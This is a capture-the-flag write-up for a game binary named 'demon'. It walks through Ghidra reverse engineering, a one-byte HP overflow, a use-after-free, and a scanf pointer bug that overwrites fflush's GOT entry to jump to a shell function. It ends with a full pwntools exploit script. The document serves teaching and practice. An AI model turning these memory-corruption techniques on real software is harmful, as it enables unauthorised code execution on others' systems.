





## Solution 

In this challenge we were given binary named demon



lets run and see what it do



seems like a game ..... , after playing it for a while i figure we cant beat it faily

okay lets fire up ghidra and see what is under the hood


The start function called by main function seem to handle the outer loop

After choosign the hero code jumps to start function ,which looks like this after cleaning


Here is what it is doing

- malloc 16 byte of memory to hero and demon pointer
- chose the demon based on global global turn
- assign values to demon pointer based on turn
- assign values to hero pointer based on choen hero
- then calls a attack functions based on heroes
- at last check if the demons were defeated it will take your name as input in a new pointer malloced with 16 bytes of size
- then print the detail of the dragon we defeated
- free the hero alocated memory and return

**lets look at the attack funtions**

#### wizrd_attack


#### knight_Attack


after playing understandign the binary i figure out the pattern we can not fairly defeat the demon

- we first have to loose once to from "Siegwurm" and then chose wizrd to fight the "Wezaemon" , then we can use mizup of cloak and booster to overflow the hp of the Wezaemon (as it is stored in one byte)
  
  

but the works not end yet , after defeating the demon we free it's allocated memory and return and back in start fight_demon  
  

when the new memory for name is allocated (as it is 16 byte in size same as previous deleted memory in heap i.e 16 bytes of demon) it is allocated in the same memory chunk as the demon memory. so we can control this memroy to jump anywhere in the code .

there is only one function in code which is giving us shell


but there is a check of global wonder_key . and we can not directly jmp to the system lne as we are loading "/bin/sh" in string str .

So we need to somehow update the key to successfully get the shell

after looking around found some functions that





the wonder land func , call and input function that print take a secret input of hundered size (so no buffer overflow) , it also changes the wonder_key value to the right one but now there is no
 way to call the_pit func So....

after looking for while I found a vulnerability in function
check_wish


we are not loading address of the local_10 , instead we are pushing the value of it directly , which means something like this

instead of

    scanf("%d" , &local_10)

the code is doing

    scanf("%d" , local_10)

and if we write somehting at this address (garbage value) we most likely get a segFault And if we can control the initial address of it we can write on our desird location , but how

turns out the prvous function that was called before check_wish , i.e take_input , it made a stack of 112 bytes . after the function end the new function is called and it makes room on the same stack memory and the previous function and the last 4 bytes of the buffer in input func are overwriting the value of the local_10 in the stack .

now we know how to write 4 bytes to our desired location but now what ....

well the next key is in same function as well


**flush()** we can overwrite its got entry and by putting its address in the initial value of local_10 , and then when scanf is called we will enter the address of our choice in decimal form and baam we will jump to there

so now lets start exploiting , our exploit be like

- defeat the demon
- write the address of wonder_land in name buffer in fight_demon func
- input the 96 bytes + 4 bytes of fflush got address , in input func
- when scanf is called input your desired address to jump to there when fflush is called ,
- we will jmp to the_pit start function and we will have the shell

below is the complete exploit

## exploit.py

```python
from pwn import *


binary='./demon'
io=process(binary)

# host= '0'
# port= 31337
# io=remote(host , port)
# context.log_level='debug'

#die once from ashura to get to balaur
io.sendlineafter(b'>> ' , b'1')
io.sendlineafter(b'>> ' , b'1')
io.sendlineafter(b'>> ' , b'1')

#let balaur heal till byte oveflow and hp<1 
io.sendlineafter(b'>> ' , b'1')
io.sendlineafter(b'>> ' , b'3')
io.sendlineafter(b'>> ' , b'3')
io.sendlineafter(b'>> ' , b'2')


#again
io.sendlineafter(b'>> ' , b'3')
io.sendlineafter(b'>> ' , b'3')
io.sendlineafter(b'>> ' , b'2')

#again
io.sendlineafter(b'>> ' , b'3')
io.sendlineafter(b'>> ' , b'3')
io.sendlineafter(b'>> ' , b'2')

#again
io.sendlineafter(b'>> ' , b'3')
io.sendlineafter(b'>> ' , b'3')
io.sendlineafter(b'>> ' , b'2')


wonder_land_addr = p32(0x8049297) #address of the wonder_land
io.recvuntil(b'as : ')
io.sendline(wonder_land_addr)

payload=b'A'*96 + p32(0x0804c008) #overwrite return address to fflush@got
# io.sendline(payload)
io.sendlineafter(b'you a Wish : ' , payload)

the_pit_addr = str(0x8049a9f) #address of the the_pit function
io.sendlineafter(b'Make a wish : ' ,the_pit_addr)

io.interactive()

```